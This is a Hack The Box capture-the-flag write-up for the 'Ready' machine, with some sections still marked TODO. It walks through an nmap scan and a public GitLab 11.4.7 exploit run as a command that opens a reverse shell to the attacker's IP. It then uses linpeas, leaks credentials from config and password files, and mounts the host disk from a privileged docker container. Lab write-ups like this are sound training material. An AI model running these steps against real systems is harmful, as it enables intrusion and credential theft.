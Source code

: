 ```yaml
---
layout: single
title: Ready - Hack The Box
excerpt: "TODO"
date: 2021-05-15
classes: wide
header:
  teaser: /assets/images/htb-writeup-ready/ready_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - todo
---
```


![](/assets/images/htb-writeup-ready/ready_logo.png)

TODO

## Porscan

```
sudo nmap -T4 -sC -sV -oA scan -p- 10.129.149.31
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 22:41 EDT
Nmap scan report for 10.129.149.31
Host is up (0.015s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.149.31:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

## Gitlab

The webserver on port 5080 runs the Gitlab application.

![](/assets/images/htb-writeup-ready/gitlab1.png)

We can create a new account.

![](/assets/images/htb-writeup-ready/gitlab2.png)

In the projet list we see there's a single projet called *ready-channel*.

![](/assets/images/htb-writeup-ready/gitlab3.png)

Gitlab projet members

![](/assets/images/htb-writeup-ready/gitlab4.png)

Gitlab version: 11.4.7

![](/assets/images/htb-writeup-ready/gitlab5.png)

Exploit-DB search results: CVE-2018-19571 + CVE-2018-19585
https://www.exploit-db.com/raw/49334

![](/assets/images/htb-writeup-ready/gitlab6.png)

`python3 exploit.py -g http://10.129.149.31 -u snowscan2 -p yolo1234 -l 10.10.14.4 -P 4444`

![](/assets/images/htb-writeup-ready/shell.png)

We can get the user's flag from dude's home directory.

![](/assets/images/htb-writeup-ready/user.png)

## Privesc

linpeas.sh

```
Found /opt/backup/gitlab.rb
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

This is the root password but we're in a docker container

```
drwxr-xr-x   1 root root 4096 Dec  1 12:41 .
drwxr-xr-x   1 root root 4096 Dec  1 12:41 ..
-rwxr-xr-x   1 root root    0 Dec  1 12:41 .dockerenv
```

```
cat /root_pass
YG65407Bjqvv9A0a8Tm_7w
```

We have privileges to mount the host drive inside the container because we're a privileged container.

We can just read the root flag after mounting the drive.

![](/assets/images/htb-writeup-ready/root.png)